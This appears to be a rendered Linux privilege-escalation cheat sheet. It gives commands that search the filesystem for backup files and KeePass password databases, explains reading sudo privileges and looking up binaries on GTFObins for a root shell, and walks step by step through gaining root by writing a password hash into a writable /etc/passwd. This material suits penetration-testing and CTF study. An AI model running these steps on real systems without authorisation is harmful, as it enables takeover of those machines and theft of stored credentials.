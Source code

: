### Find Files Containing Sensitive Information
You can search for files that may contain sensitive information using commands like:

```
find / -name "*.bak" 2>/dev/null
[Searches for backup files]

find / -name "*.kdbx" 2>/dev/null
[Searches for KeePass Password Manager database files containing passwords]
```

### Check SUDO Privileges
You can check your sudo privileges using the command: `sudo -l`\
This may require the user's password to be entered before it displays any information.

Key features to look out for:
    `NOPASSWD`      This means no password is required to run the presented commands using sudo.
    `(ALL : ALL)`   This means that the user can run all commands using sudo.

You should check binaries that you can run as sudo against [GTFObins](https://gtfobins.github.io/) to see if there are any exploits you can use to gain a root shell.

### Writable /etc/passwd File
If you have the permissions to write to the `/etc/passwd` file, you can set the password 
of the root user by generating a password hash using `openssl`.

```
Exploiting Writable /etc/passwd:

1. Check /etc/passwd permissions

    ls -l /etc/passwd

If the output looks like this, then it can be exploited:
    -rw-r--rw- 1 root root 4.2K Nov 20 15:08 /etc/passwd
            ^
        User writable

2. Generate a new password hash
    openssl passwd -1 <password>

3. Open the /etc/passwd file in a text editor like nano

4. Replace the 'x' in the root user line with the password hash
    root:x:0:0:root:/root:/bin/bash
         ^
     Hash here

5. Save the file

6. Run the command 'su root'

7. Enter the password you chose and you should be logged in as root
```
